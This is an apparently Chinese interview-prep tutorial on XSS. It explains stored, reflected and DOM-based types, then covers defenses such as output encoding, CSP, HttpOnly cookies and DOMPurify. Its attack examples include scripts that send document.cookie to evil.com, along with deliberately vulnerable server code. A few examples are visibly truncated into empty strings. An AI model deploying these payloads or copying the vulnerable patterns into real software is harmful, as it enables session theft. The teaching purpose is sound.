

# XSS 攻击与防御

## 面试重点速览

| 面试高频考点 | 重要程度 | 考察方向 |
| --- | --- | --- |
| 三种 XSS 类型区别 | :star::star::star::star::star: | 存储型/反射型/DOM 型的触发方式与危害 |
| 输出编码策略 | :star::star::star::star::star: | HTML 实体/JS 编码/CSS 编码/URL 编码 |
| CSP 防御 XSS | :star::star::star::star: | script-src + nonce + hash + strict-dynamic |
| HttpOnly Cookie | :star::star::star::star: | 阻止 JS 读取 Cookie，防止 Session 窃取 |
| DOM 型 XSS 特殊场景 | :star::star::star::star: | innerHTML、document.write、eval、location |
| 富文本安全渲染 | :star::star::star: | DOMPurify + 白名单标签过滤 |

---

## 一、XSS 概述

XSS（Cross-Site Scripting，跨站脚本攻击）是指攻击者将恶意脚本注入到目标网站的页面中，当用户访问该页面时，脚本在用户浏览器中执行，从而实现窃取 Cookie、劫持会话、篡改页面等目的。

> **注意**：虽然缩写是 XSS 而非 CSS，是为了与层叠样式表（Cascading Style Sheets）区分。

---

## 二、三种 XSS 类型对比



| 对比维度 | 存储型 XSS | 反射型 XSS | DOM 型 XSS |
| --- | --- | --- | --- |
| **持久性** | 持久化（存入数据库） | 非持久化（一次性） | 非持久化（页面刷新消失） |
| **触发方式** | 用户访问页面即触发 | 用户点击恶意链接触发 | JS 操作 DOM 时触发 |
| **数据流向** | 浏览器 → 服务器 → 数据库 → 浏览器 | 浏览器 → 服务器 → 浏览器 | 浏览器 → 浏览器（不经过服务器） |
| **危害程度** | :red_circle: 极高（影响所有用户） | :orange_circle: 高（需诱导点击） | :orange_circle: 高（需诱导点击） |
| **服务端可见** | 是 | 是 | 否（纯前端） |
| **典型场景** | 评论区、个人资料、留言板 | 搜索参数回显、错误提示 | URL hash、postMessage、localStorage |

---

## 三、攻击原理详解

### 3.1 存储型 XSS（Stored XSS）

**攻击流程**：攻击者将恶意代码提交到目标网站的数据库中，当其他用户访问包含该数据的页面时，恶意代码被执行。

**攻击示例**：

```html
<!-- 攻击者在评论区提交以下内容 -->
<div>
  <script>
    // 窃取 Cookie 并发送到攻击者服务器
    const img = new Image();
    img.src = 'https://evil.com/steal?cookie=' + document.cookie;
  </script>
  <p>这篇文章写得真好！</p>
</div>
```

```javascript
// 服务端未做过滤，直接存储到数据库
db.save("INSERT INTO comments (content) VALUES ('" + req.body.content + "')");

// 当其他用户访问评论列表时，这段脚本在每个人的浏览器中执行
// 攻击者可以获取每个访问者的 Cookie
```

**危害**：影响范围最广，所有访问该页面的用户都可能被攻击。

### 3.2 反射型 XSS（Reflected XSS）

**攻击流程**：恶意脚本通过 URL 参数传入，服务端将参数直接回显到页面中，浏览器解析执行。

**攻击示例**：

```html
<!-- 正常的搜索功能 -->
<!-- URL: https://example.com/search?q=hello -->
<!-- 页面显示: "搜索 'hello' 的结果：" -->

<!-- 攻击者构造的恶意 URL -->
<!-- https://example.com/search?q=<script>alert(document.cookie)</script> -->

<!-- 服务端未做过滤，直接回显 -->
<!-- 页面输出: 搜索 '<script>alert(document.cookie)</script>' 的结果： -->
```

```javascript
// 服务端代码（Node.js Express 示例）
app.get('/search', (req, res) => {
  const query = req.query.q;  // 未过滤的用户输入
  res.send(`<h1>搜索 '${query}' 的结果：</h1>`);  // 直接拼接到 HTML
});

// 攻击者发送钓鱼邮件，诱导用户点击
// https://example.com/search?q=<script>new Image().src='https://evil.com/log?'+document.cookie</script>
```

**特点**：需要诱导用户点击链接，一次性攻击，但可以通过短链接、钓鱼邮件等方式提高成功率。

### 3.3 DOM 型 XSS（DOM-based XSS）

**攻击流程**：恶意代码完全在客户端执行，不经过服务端。通过修改页面 DOM 环境来执行恶意脚本。

**攻击示例**：

```html
<!-- 页面代码 -->
<script>
  // 从 URL hash 中获取参数并写入页面
  const lang = location.hash.substring(1);
  document.getElementById('welcome').innerHTML = '欢迎，语言：' + lang;
</script>

<!-- 攻击者构造的 URL -->
<!-- https://example.com/page# -->
```

```javascript
// 常见的 DOM 型 XSS 危险源（Source）
// 攻击者可以控制的数据输入点
location.href          // URL 完整地址
location.hash          // URL hash 部分
location.search        // 查询参数
document.referrer      // 来源页面
document.cookie        // Cookie（可能被其他 XSS 污染）
window.name            // 跨域传递数据
postMessage 数据        // 跨窗口消息

// 危险的操作点（Sink）—— 将数据写入 DOM 的 API
element.innerHTML      // 直接插入 HTML
document.write()       // 文档写入
eval()                 // 执行字符串为代码
setTimeout(string)     // 字符串参数会被 eval
location.href = xxx    // 跳转到攻击者控制的 URL
```

::: danger DOM 型 XSS 的特殊性
DOM 型 XSS 完全在客户端发生，服务端日志中看不到攻击痕迹。传统的服务端 XSS 过滤器无法防御 DOM 型 XSS。必须在前端代码中做好输入验证和输出编码。
:::

---

## 四、防御方案

### 4.1 输入验证（Input Validation）

```javascript
/**
 * 输入验证策略：白名单 > 黑名单
 * 只允许已知安全的字符通过
 */
function validateInput(input, type) {
  const patterns = {
    username: /^[a-zA-Z0-9_]{3,20}$/,
    email: /^[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\.[a-zA-Z]{2,}$/,
    phone: /^1[3-9]\d{9}$/,
    url: /^https?:\/\/[\w.-]+(?:\.[\w.-]+)+[\w\-._~:/?#[\]@!$&'()*+,;=]+$/,
    // 只允许字母、数字、中文和常见标点
    text: /^[\u4e00-\u9fa5a-zA-Z0-9\s.,!?;:()（）-]+$/,
  };

  const pattern = patterns[type];
  if (!pattern) return false;

  // 长度限制
  if (input.length > 1000) return false;

  return pattern.test(input);
}
```

### 4.2 输出编码（Output Encoding）

**核心原则**：根据输出上下文选择合适的编码方式。

```javascript
/**
 * HTML 实体编码 —— 用于将数据插入 HTML 标签内容
 */
function htmlEncode(str) {
  const div = document.createElement('div');
  div.appendChild(document.createTextNode(str));
  return div.innerHTML;
}

// 或者使用映射表（性能更好）
function htmlEncodeFast(str) {
  const entityMap = {
    '&': '&amp;',
    '<': '&lt;',
    '>': '&gt;',
    '"': '&quot;',
    "'": '&#39;',
    '/': '&#x2F;',
  };
  return String(str).replace(/[&<>"'\/]/g, (s) => entityMap[s]);
}

// 使用示例
const userInput = '<script>alert("xss")</script>';
element.innerHTML = htmlEncode(userInput);
// 页面显示: &lt;script&gt;alert(&quot;xss&quot;)&lt;/script&gt;
// 不会执行脚本
```

```javascript
/**
 * JavaScript 编码 —— 用于将数据插入 <script> 或 JS 事件处理器
 */
function jsEncode(str) {
  return str.replace(/[\\'"&<>\/\x00-\x1f\x7f-\x9f]/g, (ch) => {
    return '\\x' + ch.charCodeAt(0).toString(16).padStart(2, '0');
  });
}

// URL 编码 —— 用于将数据作为 URL 参数
function urlEncode(str) {
  return encodeURIComponent(str);
}

// CSS 编码 —— 用于将数据插入 <style> 标签或 style 属性
function cssEncode(str) {
  return str.replace(/[\\'"&<>\/\x00-\x1f\x7f-\x9f]/g, (ch) => {
    return '\\' + ch.charCodeAt(0).toString(16).padStart(4, '0') + ' ';
  });
}
```

### 4.3 CSP 配置（Content Security Policy）

CSP 是防御 XSS 最强大的武器之一，通过白名单机制限制脚本来源：

```nginx
# Nginx 配置 CSP 响应头
add_header Content-Security-Policy "
  default-src 'self';
  script-src 'self' 'nonce-{random}' 'strict-dynamic';
  style-src 'self' 'unsafe-inline';
  img-src 'self' data: https:;
  connect-src 'self' https://api.example.com;
  frame-src 'none';
  object-src 'none';
  base-uri 'self';
  form-action 'self';
";
```

```html
<!-- 使用 nonce 机制允许特定内联脚本 -->
<script nonce="random-base64-value">
  // 只有带有正确 nonce 的脚本才会被执行
  console.log('安全的脚本');
</script>

<!-- 使用 hash 机制允许特定内容的脚本 -->
<!-- 计算脚本内容的 SHA-256 哈希值 -->
<script>
  // 这段脚本的 SHA-256 哈希值需要预先加入 CSP 白名单
  document.getElementById('app').textContent = 'Hello';
</script>
```

::: tip CSP 防御 XSS 的核心逻辑
CSP 通过 `script-src` 指令禁止内联脚本（`'unsafe-inline'` 不设置），配合 nonce 或 hash 白名单机制，使得即使攻击者成功注入了 `<script>` 标签，浏览器也会拒绝执行，因为该脚本既没有正确的 nonce 值，其哈希值也不在白名单中。
:::

### 4.4 HttpOnly Cookie

```javascript
// 服务端设置 Cookie 时添加 HttpOnly 标志
// Node.js Express 示例
res.cookie('sessionId', sessionToken, {
  httpOnly: true,   // 禁止 JavaScript 读取 Cookie
  secure: true,     // 仅在 HTTPS 连接中传输
  sameSite: 'lax',  // 防止 CSRF
  maxAge: 3600000,  // 1 小时过期
});

// 攻击者无法通过 document.cookie 获取 sessionId
// 即使 XSS 攻击成功，也无法窃取会话
```

### 4.5 X-XSS-Protection 头

```nginx
# 启用浏览器内置的 XSS 过滤器（已逐渐被 CSP 取代）
add_header X-XSS-Protection "1; mode=block";
```

::: warning 注意
`X-XSS-Protection` 已被现代浏览器逐步弃用，不应作为主要防御手段。CSP 才是 XSS 防御的核心。
:::

---

## 五、面试重点

### Q1: 三种 XSS 的区别是什么？

**标准回答框架**：

| 维度 | 存储型 | 反射型 | DOM 型 |
| --- | --- | --- | --- |
| 数据持久化 | 存入数据库 | 不持久化 | 不持久化 |
| 触发方式 | 访问页面即触发 | 点击恶意链接触发 | JS 操作 DOM 触发 |
| 是否经过服务端 | 是 | 是 | 否 |
| 服务端能否防御 | 能 | 能 | 不能（需前端防御） |
| 危害范围 | 影响所有用户 | 单个用户 | 单个用户 |

### Q2: 如何防御 XSS？

**标准回答框架**：

1. **输入验证**：对所有用户输入进行白名单校验
2. **输出编码**：根据上下文（HTML/JS/CSS/URL）选择合适的编码方式
3. **CSP**：配置 `Content-Security-Policy`，禁止内联脚本，使用 nonce/hash
4. **HttpOnly Cookie**：阻止 JS 读取敏感 Cookie
5. **安全框架 API**：使用 `textContent` 替代 `innerHTML`，避免 `eval()`
6. **富文本过滤**：使用 DOMPurify 等库，白名单标签过滤

### Q3: innerHTML 和 textContent 的区别？（安全角度）

```javascript
// innerHTML —— 危险，会解析 HTML
element.innerHTML = '';  // 会执行脚本！

// textContent —— 安全，纯文本
element.textContent = '';  // 原样显示字符串

// 创建文本节点 —— 最安全的方式
const textNode = document.createTextNode(userInput);
element.appendChild(textNode);
```

---

## 六、富文本安全的 XSS 防护

当业务需要支持富文本（如评论、文章编辑器）时，不能简单地使用 HTML 编码：

```javascript
// 使用 DOMPurify 进行白名单过滤（推荐方案）
import DOMPurify from 'dompurify';

// 配置白名单
const clean = DOMPurify.sanitize(dirty, {
  ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'br', 'ul', 'ol', 'li'],
  ALLOWED_ATTR: ['href', 'title', 'target'],
  // 只允许 http/https 协议的链接
  ALLOWED_URI_REGEXP: /^https?:\/\//,
});

// 安全的 DOM 操作
element.innerHTML = clean;
```

::: danger 不要自己写正则过滤 HTML
HTML 解析极其复杂，正则表达式无法正确处理所有边界情况。攻击者可以通过编码绕过、嵌套标签等方式绕过正则过滤。始终使用经过安全审计的库（如 DOMPurify）。
:::

---

## 七、总结

XSS 防御的核心策略可以概括为：

1. **不要信任输入** -- 所有输入都可能是恶意的
2. **根据上下文编码** -- HTML/JS/CSS/URL 各有不同的编码方式
3. **CSP 是最后一道防线** -- 即使注入成功，浏览器也会拒绝执行
4. **HttpOnly 降低损失** -- Cookie 窃取是最常见的 XSS 目标
5. **使用安全 API** -- `textContent` > `innerHTML`，框架内置转义 > 手动拼接